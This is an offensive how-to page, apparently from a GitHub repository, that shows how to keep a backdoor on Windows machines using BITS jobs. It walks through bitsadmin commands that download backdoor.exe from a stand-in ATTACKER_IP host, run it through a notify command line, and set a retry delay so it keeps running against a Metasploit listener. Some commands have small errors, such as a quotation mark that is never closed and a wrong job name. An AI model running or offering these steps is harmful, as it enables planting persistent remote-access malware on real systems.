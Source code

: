 # Persistence with BITS Jobs

## Bits Jobs
BITS (Background Intelligent Transfer Service) is used for file transfer between machines (downloading or uploading) using idle network bandwidth. 

BITS Jobs are containers that contain files that need to be transferred. However, when creating the job the container is empty and it needs to be populated (specify one or more files to be transferred). It's also needed to add the source and the destination.

Now that we know what BITS is and what jobs are used for let's try achieving persistence.

Note: In order to work you have to have a webserver (python based or use apache) running so BITS can download the backdoor and Metasploit listening for connections.

## Help Menu
You can view the BITS help menu by typing: bitsadmin in the command line/the shell you spawned.

## Method

1. Create the backdoor job:
	
	bitsadmin /create backdoor

2. Add the file for the job that will be transferred:

	bitsadmin /addfile backdoor "http://[ATTACKER_IP]/backdoor.exe" "C:\Users\[USERNAME]\Downloads\backdoor.exe

3. Now, let's make BITS execute our backdoor:

	bitsadmin /SetNotifyCmdLine 1 cmd.exe "/c bitsadmin.exe /complete backdoor | start /B C:\Users\[USERNAME]\Downloads\backdoor.exe

4. Since we want our backdoor to be persistent we'll set a retry delay for the job.

	bitsadmin /SetMinRetryDelay backdoor 30

5. Finally, we'll start/resume the job. To execute the job type: 

	bitsadmin /resume
